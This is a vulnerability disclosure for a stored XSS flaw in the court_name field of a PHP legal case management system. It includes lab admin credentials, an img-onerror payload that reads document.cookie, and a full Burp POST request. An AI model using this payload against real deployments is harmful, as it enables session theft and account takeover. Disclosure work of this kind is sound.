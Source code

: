 ## Legal Case Management System

## XSS on `/admin/court-type`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/court-type
```

The parameter `court_name`  is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/court-type HTTP/1.1
Host: 192.168.150.131
Content-Length: 275
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIYei4fWYnUSr5c7S
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/court-type
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjdITGtBc1huRXBGcTVEUmZDSGJCQ2c9PSIsInZhbHVlIjoiV0RTb1pnVnFyS3Y5RUExRHQ5eTRhNUlvM2pIQjZnSE5oQ1AwMHhUVnowaVlmR3V2Sm9IWXFjOG5LbjV6K2l0dSIsIm1hYyI6ImNiNWE5NDVkMjM0OTUxN2QwMGZhNzU0YjQxM2VlZDQ2NTVjMzE1ZjA5MDZmNzlkMDUzZGFiNzA4NTc2MTNlNTcifQ%3D%3D; test_session=eyJpdiI6InE1S3hcL2p6UTdUakYyR1dWMmV0dnFBPT0iLCJ2YWx1ZSI6ImZYTTVoTDhvbVV5WHVYQnpPS1YrSGphVkJtbUVuWERjYjhnTkdxWGtUak1BdGMxRWlVY01EUzhRTVBjTGpQaUQiLCJtYWMiOiIyM2UzZDgyNjVmMWYyZDA1MGYxM2ZjZGQ1MWNlMzY1MzhjYTY4NThiNDJiZmZkNDkyNzhhNDFlMzg5MjRiOGZmIn0%3D
Connection: close

------WebKitFormBoundaryIYei4fWYnUSr5c7S
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundaryIYei4fWYnUSr5c7S
Content-Disposition: form-data; name="court_name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundaryIYei4fWYnUSr5c7S--

```

### Screenshot

![image-20240509195935993](./screenshot/image-20240509195935993.png)
